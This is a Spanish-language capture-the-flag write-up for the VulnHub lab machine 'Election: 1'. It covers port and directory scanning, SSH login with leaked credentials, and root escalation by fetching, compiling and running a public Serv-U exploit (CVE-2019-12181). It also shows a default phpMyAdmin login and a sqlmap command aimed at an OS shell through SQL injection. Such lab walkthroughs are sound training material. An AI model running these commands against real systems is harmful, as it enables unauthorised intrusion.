



# VulnHub - Election: 1 Writeup

## Primer paso: Escaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```


En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255 -n
```

* Se añade el parámetro -n para que no haga la resolución DNS y aligerar el escaneo.


- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.132: Tiene abiertos los puertos 22 (ssh) y 80 (http), es la máquina víctima.
- 192.168.226.254: No parece que tenga puertos abiertos.

Realizamos un escaneo en mayor profundidad:

```bash
sudo nmap -vvv -sV -sC 192.168.226.132 -p 22,80 -n -Pn -oN escaneo
```

Las flags empleadas realizarán lo siguiente:
- vvv: Proporciona los resultados por pantalla según se encuentren
- sV: Muestra la versión del servicio corriendo en el puerto
- sC: Corre contra esos servicios scripts predeterminados
- p: Los puertos a escanear
- n: Indica que no se debe de realizar la resolución DNS
- Pn: Le decimos a nmap que el host está encendido, por lo que no debe de comprobarlo previamente.
- oN: Guarda la salida en un archivo llamado escaneo


## Segundo paso: Exploración web

No proporciona mucha información. Procedemos a explorar la página web:


Es un servidor Apache. Buscaremos directorios y archivos en él con gobuster:

```bash
sudo gobuster dir -u 192.168.226.132 -w /usr/share/dirb/wordlists/common.txt
```


Encontrará una carpeta /phpmyadmin, la cual es una herramienta de PHP emplada para usar MySQL en las páginas web, aunque nos pide un usuario y contraseña.


También un archivo robots.txt, usado por los desarrolladores para que los motores de búsqueda no indexen ciertas URL. El archivo posee los siguientes nombres:



La única URL que funcionará es /election:



Volveremos a escanear todas las URL, esta vez con dirb, que estanea recursivamente:
```bash
sudo dirb http://192.168.226.132:80/election
```


Y encontraremos la URL http://192.168.226.132/election/admin/logs/.  Al entrar podremos descargar el archivo system.log, que tiene el siguiente contenido:


## Tercer paso: SSH y escalado de privilegios

Probaremos el usuario y contraseña a través de SSH.


Encontraremos la flag del usuario en el escritorio:


Buscamos algún archivo que se pueda ejecutar con permisos de root:

```bash
find / -perm /4000 2>/dev/null
```

Encontramos el archivo "/usr/local/Serv-U/Serv-U" el cual es vulnerable a CVE-2019-12181.

El exploit se encuentra en [GitHub](https://github.com/mavlevin/CVE-2019-12181/blob/master/servu-pe-cve-2019-12181.c)

Para usarlo se siguen estos pasos:

1. wget https://raw.githubusercontent.com/mavlevin/CVE-2019-12181/master/servu-pe-cve-2019-12181.c
2. gcc servu-pe-cve-2019-12181.c -o exploit
3. chmod +x exploit
4. ./exploit


Y con esto podemos acceder a la flag de root:


## Bonus: SQL Injection

Aunque hay una forma alternativa de llegar a este resultado. A través de phpmyadmin, se puede acceder al panel de control con el usuario root y la contraseña toor:


En la tabla "tb_panitia" encontramos un usuario lova y una contraseña.


Al buscar la contraseña en Google encontraremos que es un hash de MD5:



Con el id (no_induk) y la contraseña se podrá entrar en el panel de control en la URL http://192.168.226.132/election/admin/:


Encontramos entre las opciones el framework utilizado y su versión:


Lo buscamos en la base de datos de exploit-db:

```bash
searchsploit eLection
```


Y es vulnerable a un SQL Injection. Buscamos más información en [exploit-db](https://www.exploit-db.com/exploits/48122)

Proporciona un fragmento de una petición de BurpSuite y un código bash:

```
POST /election/admin/ajax/op_kandidat.php HTTP/1.1
Host: HOSTNAME
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://HOSTNAME/election/admin/kandidat.php?_
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 17
Connection: close
Cookie: el_listing_panitia=5; el_mass_adding=false; el_listing_guru=5; el_listing_siswa=5; PHPSESSID=b4f0c3bbccd80e9d55fbe0269a29f96a; el_lang=en-us

aksi=fetch&id=256
```

```bash
sqlmap -r getcandidate --level=5 --risk=3 --os-shell -p id
```

Cambiamos HOSTNAME de las líneas 2 y 7 por la dirección IP de la máquina víctima y guardamos el archivo como "getcandidate".

Sin embargo, este error ya ha sido arreglado y no funciona:

